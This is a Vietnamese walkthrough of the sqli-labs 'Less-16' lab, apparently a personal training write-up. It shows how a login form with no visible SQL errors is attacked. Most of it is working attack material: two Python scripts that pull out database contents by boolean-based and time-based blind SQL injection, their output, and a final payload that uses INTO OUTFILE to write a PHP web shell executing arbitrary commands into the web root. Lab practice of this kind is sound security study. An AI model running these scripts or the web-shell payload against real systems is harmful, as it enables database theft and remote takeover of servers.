





# Less 16

Đề bài cho một khung đăng nhập 



Thử đăng nhập



Sau nhiều lần thử tôi thấy trong bài này đã không hiển thị các lỗi của SQL lên màn hình. Nó chỉ hiển thị để thông báo cho ta đăng nhập thất bại hay thành công. Như vậy ta không thể khai thác được gì bằng cách cho nó hiển thị lỗi ra màn hình. Nhưng tôi thấy nó vẫn thông báo cho chúng ta thấy có đăng nhập thành công hay không. Tận dụng điều này chúng ta có thể sử dụng boolean based để khai thác các thông tin trong DB

Tôi thấy khi tôi nhập vào như sau 



Thì thấy thông báo đăng nhập thành công


Như vậy tôi có thể dự đoán câu query có thể là

```
select * from table where username=("$user") and password=("passwd")
```

Như vậy tôi có thể khai thác boolean based như những bài trước

```
import requests
import string

text = "../images/flag.jpg"
query = "select database()"
passwd = ""
url_1="http://192.168.84.233/sqli-labs/Less-16/"
param_1 = '1") or substr(('
param_2 = "),{},1)='{}' -- "
param = param_1 + query + param_2

lists=string.printable

for n in range(1,18):
    for i in lists:
        username = param.format(n,i)
        data={"uname": username, "passwd":passwd}
        res = requests.post(url=url_1, data=data)
        if text in res.text:
            print(i)
            break
```

Kết quả

```
python Sql-boolean-post.py 
s
e
c
u
r
i
t
y
```

Tương tự như vâỵ ta có thể khai thác các thông tin khác tương tự như những bài trước bằng cách chỉ cần thay đổi câu query trong script trên

Hoặc ta có thể sử dụng time based để khai thác thông tin. Nhưng sử dụng cách này sẽ mất thời gian hơn sử dụng boolean based.

Tôi nhập vào khung user 

```
1")-if(substr((select database()),1,1)='a',sleep(1), false) -- 
```

Như đây điều kiện là sai



Khi tồi nhập vào

```
1")-if(substr((select database()),1,1)='s',sleep(1), false) -- 
```

Khi điều kiện là đúng



Như vậy ta có thể tận dụng vào đây để khai thác các thông tin trong DB giống như các bài trước

```
import requests
import string
import time

query = "select database()"
passwd = ""
url_1="http://192.168.84.233/sqli-labs/Less-16/"
param_1 = '1")-if(substr(('
param_2 = "),{},1)='{}',sleep(1), false) -- "
param = param_1 + query + param_2

lists=string.printable

for n in range(1,18):
    for i in lists:
        username = param.format(n,i)
        data={"uname": username, "passwd":passwd}
        time_1 = time.time()
        res = requests.post(url=url_1, data=data)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả như sau

```
python Sql-time-post.py 
s
e
c
u
r
i
t
y
```

Tương tự như vậu để show các thông tin khác ta chỉ cần thay đổi câu query. Ta cũng có thể thêm đoạn code PHP lên server như những bài trước bằng cách nhập vào khung username như sau

```
1") union select 1,"<?php system($_REQUEST['cmd']);?>" into outfile '/var/www/html/tests/c1.php' -- 
```